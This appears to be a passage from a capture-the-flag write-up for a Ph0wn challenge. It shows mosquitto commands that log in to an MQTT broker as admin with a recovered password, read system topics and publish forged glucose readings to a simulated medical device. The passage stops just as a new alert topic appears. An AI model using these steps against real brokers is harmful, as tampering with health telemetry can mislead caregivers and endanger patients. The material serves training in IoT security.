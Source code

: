 Again, let's connect to the MQTT broker, but as `admin`:

```
$ mosquitto_sub -v -h SERVER -p 1883 -t '#' -u admin -P Sugar1sBaaaaaaad
ph0wn18/info connect as admin for more topics
ph0wn18/glucose-level 105
ph0wn18/glucose-level 60
```

We don't get especially more information, but maybe we have more rights.
What can we try to do?

1. Try to publish to another topic
2. Try to read system topics
3. Try to modify glucose level

#### Publishing to another channel

This does not succeed:

`mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/try' -u admin -P Sugar1sBaaaaaaad -m 'test'`: the message is actually not published :(

#### Subscribing to SYS topics


```
$ mosquitto_sub -v -h SERVER -p 1883 -t '$SYS/#' -u admin -P Sugar1sBaaaaaaad
$SYS/broker/version mosquitto version 1.4.12
$SYS/broker/timestamp 2017-06-01 13:03:46+0000
$SYS/broker/uptime 2959 seconds
$SYS/broker/clients/total 4
...
```

- We have a Mosquitto server at the other end, version 1.4.12
- We have 4 clients at all
- The server sent 146 messages so far `$SYS/broker/messages/sent 146`
- etc

Nothing that seems really useful :(

#### Changing glucose level

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '150'`
```
It works and we indeed see the new value printed in our subscriber.

How about trying strange values.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m 'test'
```

And in our subscriber we see a message on a new topic `ph0wn18/alert`:
